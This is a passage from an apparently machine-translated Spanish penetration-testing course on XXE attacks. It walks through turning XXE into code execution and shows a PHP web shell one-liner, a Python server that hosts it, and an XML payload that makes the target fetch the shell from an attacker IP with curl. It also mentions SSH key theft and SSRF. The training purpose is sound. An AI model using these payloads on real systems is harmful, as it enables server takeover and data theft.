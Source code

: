 Además de leer archivos locales, es posible que podamos obtener la ejecución del código a través del servidor remoto. El método más fácil sería buscar`ssh`claves o intentar utilizar un truco de robo de hash en aplicaciones web basadas en Windows, haciendo una llamada a nuestro servidor. Si estos no funcionan, es posible que aún podamos ejecutar comandos en aplicaciones web basadas en PHP a través del`PHP://expect`Filtrar, aunque esto requiere el PHP`expect`módulo a instalar y habilitar.

Si el XXE imprime directamente su salida 'como se muestra en esta sección', entonces podemos ejecutar comandos básicos como`expect://id`, y la página debe imprimir la salida del comando. Sin embargo, si no tuviéramos acceso a la salida, o necesitamos ejecutar un comando más complicado 'por ejemplo, el shell inverso', entonces la sintaxis XML puede romperse y el comando no puede ejecutarse.

El método más eficiente para convertir XXE en RCE es obtener un shell web de nuestro servidor y escribirlo en la aplicación web, y luego podemos interactuar con él para ejecutar comandos. Para hacerlo, podemos comenzar escribiendo un shell web básico de PHP e iniciando un servidor web de Python, de la siguiente manera:

Divulgación de archivos locales

```
xnoxos@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.phpxnoxos@htb[/htb]$ sudo python3 -m http.server 80
```

Ahora, podemos usar el siguiente código XML para ejecutar un`curl`Comando que descarga nuestro shell web en el servidor remoto:

Código:xml

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root><name></name><tel></tel><email>&company;</email><message></message></root>
```

**Nota:**Reemplazamos todos los espacios en el código XML anterior con`$IFS`, para evitar romper la sintaxis XML. Además, muchos otros personajes como`|`, `>`, y`{`Puede romper el código, por lo que debemos evitar usarlos.

Una vez que enviamos la solicitud, debemos recibir una solicitud en nuestra máquina para el`shell.php`Archivo, después de lo cual podemos interactuar con el shell web en el servidor remoto para la ejecución del código.

**Nota:**El módulo esperado no está habilitado/instalado de forma predeterminada en los servidores PHP modernos, por lo que este ataque no siempre funciona. Esta es la razón por la cual XXE generalmente se usa para revelar archivos locales confidenciales y código fuente, lo que puede revelar vulnerabilidades o formas adicionales de obtener la ejecución del código.

# **Otros ataques xxe**

Otro ataque común a menudo realizado a través de XXE vulnerabilidades es la explotación SSRF, que se utiliza para enumerar los puertos abiertos localmente y acceder a sus páginas, entre otras páginas web restringidas, a través de la vulnerabilidad XXE. El[Ataques del lado del servidor](https://academy.hackthebox.com/course/preview/server-side-attacks)El módulo cubre completamente SSRF, y las mismas técnicas se pueden transportar con ataques XXE.
